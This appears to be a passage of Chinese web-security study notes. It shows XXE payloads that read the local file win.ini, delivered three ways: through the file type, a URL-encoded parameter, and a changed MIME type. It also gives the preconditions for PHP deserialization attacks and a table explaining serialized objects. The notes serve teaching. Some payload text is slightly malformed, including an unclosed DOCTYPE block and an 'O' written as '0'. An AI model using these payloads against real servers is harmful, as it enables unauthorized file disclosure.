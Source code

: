 > 通过文件类型进行判断

```
<?xml version="1.0"?>
<!DOCTYPE fo [
<!ENTITY xxe SYSTEM "file:///c:/windows/win.ini">
]>
<user><username>
&xxe ;
</username><password>bb</password></user>
```



> 通过参数传递（需要url编码）

```
xml=xxxxxxxxxxx
```



> 通过修改请求头 MIME 

```
比如json

将MIME的application/json -> application/xml

{username:'aaa','password':'bbb'}

<?xml version="1.0"?>
<!DOCTYPE a [
<!ENTITY d SYSTEM "file:///C://Windows//win.ini">
<user>
<username>&d;</username><password>aaa</password></user>
```

## 反序列化漏洞

> 利用条件

1. 必须有unserialize()函数
2. unserialize()函数的参数必须可控
3. 文件中存在可利用的类，且类中有魔术方法

> php序列化

```php
new car("byd","混动",2022,12.99);

0:3:"car":4: {s:7:"carName";s:3:"BYD";s:6:"system";s:6:“混动";s:4:"date";i:2022;s:5:"price";d:12.99;}
```

| 数据           | 表示                                      |
| -------------- | ----------------------------------------- |
| 0:3:"car":4    | O：object，3:3个字符，car：对象，属性个数 |
| s:7:"carName"; | S：String，7：7个字符，carName：值        |
| i:2022;        | i：int，值：2022                          |
| d:12.99;       | d：float浮点数，12.99：值                 |
